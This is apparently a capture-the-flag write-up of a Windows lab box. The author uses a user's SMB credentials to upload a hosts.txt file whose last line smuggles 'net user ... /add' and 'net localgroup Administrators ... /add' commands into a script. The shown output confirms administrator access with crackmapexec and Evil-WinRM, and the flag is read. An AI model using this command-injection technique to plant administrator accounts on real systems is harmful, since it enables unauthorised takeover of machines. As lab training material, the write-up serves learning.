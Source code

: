 done.

Uploading the add user script

```
❯ smbclient //10.10.74.141/Users -U brittanycr --password Change
Try "help" to get a list of possible commands.
smb: \> cd brittanycr
smb: \brittanycr\> ls
  .                                   D        0  Sat May  2 19:
  ..                                  D        0  Sat May  2 19:
  hosts.txt                           A       22  Sun May  3 09:
get 
                15587583 blocks of size 4096. 10894588 blocks av
smb: \brittanycr\> get hosts.txt
getting file \brittanycr\hosts.txt of size 22 as hosts.txt (0.0 
smb: \brittanycr\> put hosts.txt
putting file hosts.txt as \brittanycr\hosts.txt (0.1 kb/s) (average 0.1 kb/s)
```

```
❯ cat hosts.txt
google.com
cisco.com
;net user tanishq ChangeMe#1234 /add;net localgroup Administrators tanishq /add
```

done.



Trying to logon ... (waiting ...) ...

yeah ... not working.


After spending 30 mins on this shit, I have ... finally got it!

I created a new user using buse's account privs and then just put escalation script line in brittany. 

```
net localgroup Administrators tanishq /add;
```

```
❯ crackmapexec smb 10.10.74.141 -u tanishq -p 'ChangeMe#1234'
SMB         10.10.74.141    445    FIRE             [*] Windows 10.0 Build 17763 x64 (name:FIRE) (domain:windcorp.thm) (signing:True) (SMBv1:False)
SMB         10.10.74.141    445    FIRE             [+] windcorp.thm\tanishq:ChangeMe#1234 (Pwn3d!)
```

Hell yeah. 

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat Flag3.txt
THM{PWNED}
```
